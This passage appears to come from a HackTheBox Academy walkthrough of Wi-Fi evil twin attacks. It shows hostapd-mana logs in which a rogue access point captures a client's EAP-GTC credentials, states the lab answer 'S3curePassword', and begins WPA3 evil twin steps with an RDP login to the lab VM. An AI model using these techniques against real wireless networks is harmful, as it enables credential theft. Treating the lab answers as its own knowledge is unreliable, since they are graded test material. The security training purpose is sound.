 Students will see the client connect to the rogue AP via the insecure GTC protocol. As a result, the client's identity is exposed in cleartext.

```
<SNIP>
MANA - Directed probe request for SSID 'HackTheBox' from 02:00:00:00:01:00
MANA - Directed probe request for SSID 'StarLight-Hospital' from fa:0c:86:c0:f6:94
wlan1: STA 02:00:00:00:01:00 IEEE 802.11: authenticated
wlan1: STA 02:00:00:00:01:00 IEEE 802.11: associated (aid 1)
wlan1: CTRL-EVENT-EAP-STARTED 02:00:00:00:01:00
wlan1: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=1
MANA EAP Identity Phase 0: HTB\Sentinal
wlan1: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=21
MANA EAP Identity Phase 1: HTB\Sentinal
MANA EAP GTC | HTB\\Sentinal:{hidden}
```

Answer: `S3curePassword`

# Evil Twin Attack on WPA3

## Question 1

### "Perform the evil twin attack as demonstrated in this section. What is the password obtained?"

o begin, students need to connect to the target VM using remote desktop protocol, providing the credentials `wifi:wifi`.

Code: shell

```shell
xfreerdp /v:STMIP /u:wifi /p:wifi /dynamic-resolution
```

```
┌─[us-academy-3]─[10.10.15.111]─[htb-ac-594497@htb-llmhupro9r]─[~]
└──╼ [★]$ xfreerdp /v:10.129.231.149 /u:wifi /p:wifi /dynamic-resolution

[20:15:14:164] [104779:104780] [ERROR][com.winpr.timezone] - Unable to find a match for unix timezone: US/Central
[20:15:14:465] [104779:104780] [INFO][com.freerdp.gdi] - Local framebuffer format  PIXEL_FORMAT_BGRX32
[20:15:14:465] [104779:104780] [INFO][com.freerdp.gdi] - Remote framebuffer format PIXEL_FORMAT_BGRA32
[20:15:14:487] [104779:104780] [INFO][com.freerdp.channels.rdpsnd.client] - [static] Loaded fake backend for rdpsnd
<SNIP>
```

Next, students need to enable monitor mode on the `wlan0` interface.

Code: shell
